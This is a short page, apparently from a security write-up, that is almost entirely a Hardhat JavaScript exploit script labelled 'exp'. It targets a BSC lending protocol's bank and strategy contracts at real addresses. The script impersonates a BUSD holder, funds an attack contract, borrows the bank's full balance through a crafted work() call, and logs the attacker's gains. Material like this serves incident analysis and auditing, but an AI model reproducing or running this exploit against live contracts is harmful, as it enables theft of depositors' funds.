 
exp：


```js
cconst hre = require("hardhat");


async function main() {


    const BUSD = "0x55d398326f99059fF775485246999027B3197955";
    const BUSD_HOLDER = '0xEFDca55e4bCE6c1d535cb2D0687B5567eEF2AE83';
    const BANK_ADDR = '0xc18907269640D11E2A91D7204f33C5115Ce3419e';
    const STRATEGY = '0x5085c49828b0b8e69bae99d96a8e0fcf0a033369'


    let Hack = await hre.ethers.getContractFactory("attack_erc20");
    const hack = await Hack.deploy();
    await hack.deployed();
    console.log("attack contract deployed to:", hack.address);




    await hre.network.provider.request({
        method: "hardhat_impersonateAccount",
        params: [BUSD_HOLDER],
    });
    const signer = await hre.ethers.getSigner(BUSD_HOLDER)
    const IERC20 = await hre.ethers.getContractAt("contracts/attack.sol:IERC20", BUSD, signer);


    let amount =ethers.utils.parseEther('500.0');
    let tx = await IERC20.transfer(hack.address, amount);
    console.log('Transfer %s BUSD from %s to %s', amount, BUSD_HOLDER, hack.address);


    await hack.init();
    let pairAddr = await hack.pair();
    const IBANK = await hre.ethers.getContractAt("contracts/attack.sol:IBANK", BANK_ADDR, signer);


    let data = hre.ethers.utils.defaultAbiCoder.encode(['address', 'uint', 'uint', 'address' ,'uint'], [STRATEGY, 0x40, 0x40 ,pairAddr, 2]);




    let borrowAmount = await IERC20.balanceOf(BANK_ADDR);
    await IBANK.work(0, 15, borrowAmount, data);


    await hack.payday();
    let before = await hack.BUSDBalanceBefore();
    let after = await hack.BUSDBalanceAfter();
    let Mbefore = await hack.Mbefore();
    let Mafter = await hack.Mafter();
    let rhoBefore = await hack.rhoBefore();
    let rhoAfter = await hack.rhoAfter()


    console.log("attacker BUSD before: ", before);
    console.log("attacker BUSD after:  ", after);
    console.log("attacker Mbefore: ", Mbefore);
```